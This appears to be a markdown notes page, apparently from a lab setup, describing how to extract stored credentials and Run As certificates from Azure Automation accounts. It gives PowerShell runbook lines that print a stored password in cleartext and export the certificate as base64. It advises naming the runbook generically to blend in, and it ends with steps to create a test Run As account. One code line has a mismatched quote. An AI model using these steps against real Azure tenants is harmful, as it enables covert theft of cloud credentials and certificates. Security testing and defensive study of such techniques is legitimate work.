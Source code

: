 # Automation Accounts Credentials Extraction

## Steps

### 1) First, we will need to create a new runbook in the account. Ideally, we would name this something generic, such as AzureAutomationTutorials, to blend in.

### 2) This runbook will cast the Cred-1 credential item to a variable, then output the username and password to the job output:

 - $myCredential = Get-AutomationPSCredential -Name 'Cred-1'

 - $userName = $myCredential.UserName

 - $password = $myCredential.GetNetworkCredential().Password

 - $userName

 - $password

### 3) We will follow a similar process for exporting the attached Automation account Run as certificates:

 - $RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'

 - $CertificatePath = Join-Path $env:temp RunAsCertificate.pfx

 - $Cert = $RunAsCert.Export('pfx','CertificatePassword')

 - Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose

 - $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath))

 - $base64string


### 4) Finally, we can review the job output to recover the credentials. The certificates can be converted back to pfx files from the Base64 strings, and the stored credentials should be available in cleartext.

# Create a "Run as" account in the test Automation account

## Steps:

### 1) Log in as the "azureadmin" account, or as an owner of the subscription

### 2) Navigate to Automation Accounts section

### 3) Either choose an existing Automation account or create a new one. If you're creating a new Automation account, a Run as account can be created along with the account.

### 4) Select Run as accounts from the menu blade

### 5) Choose Create Azure Run As Account in the menu

### 6) In the next window, select the Create button


